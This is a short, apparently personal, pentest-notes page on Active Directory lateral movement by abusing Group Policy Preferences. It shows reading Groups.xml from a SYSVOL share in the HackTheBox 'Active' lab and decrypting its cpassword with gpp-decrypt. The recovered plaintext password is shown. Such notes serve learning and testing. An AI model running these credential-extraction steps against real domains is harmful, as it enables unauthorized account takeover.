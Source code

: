 ```yaml
---
description: >-
  SYSVOL lateral movemet abusing Groups.xml file.
title: SYSVOL (Groups.xml)              # Add title here
date: 2023-01-02 08:00:00 -0600                           # Change the date to match completion date
categories: [12 Active Directory, Lateral Movement - SYSVOL (Groups.xml)]                     # Change Templates to Writeup
tags: [active directory, lateral movement, groups.xml, sysvol share, gpp decrypt]     # TAG names should always be lowercase; replace template with writeup, and add relevant tags
show_image_post: false                                    # Change this to true
#image: /assets/img/machine-0-infocard.png                # Add infocard image here for post preview image
---
```

If we have access to a SYSVOL file, we can extract the "Groups.xml" file and decrypt the cpassword with gpp-decrypt utility:
```bash
# Contents of Groups.xml
cat ./active.htb/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/MACHINE/Preferences/Groups/Groups.xml

<?xml version="1.0" encoding="utf-8"?>
<Groups clsid="{3125E937-EB16-4b4c-9934-544FC6D24D26}"><User clsid="{DF5F1855-51E5-4d24-8B1A-D9BDE98BA1D1}" name="active.htb\SVC_TGS" image="2" changed="2018-07-18 20:46:06" uid="{EF57DA28-5F69-4530-A59E-AAB58578219D}"><Properties action="U" newName="" fullName="" description="" cpassword="edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ" changeLogon="0" noChange="1" neverExpires="1" acctDisabled="0" userName="active.htb\SVC_TGS"/></User>
</Groups>

# Decrypting cpassword
gpp-decrypt edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ

GPPstillStandingStrong2k18
```
Examples:
[Active](https://shuciran.github.io/posts/Active/#fnref:sysvol-gpp-decrypt]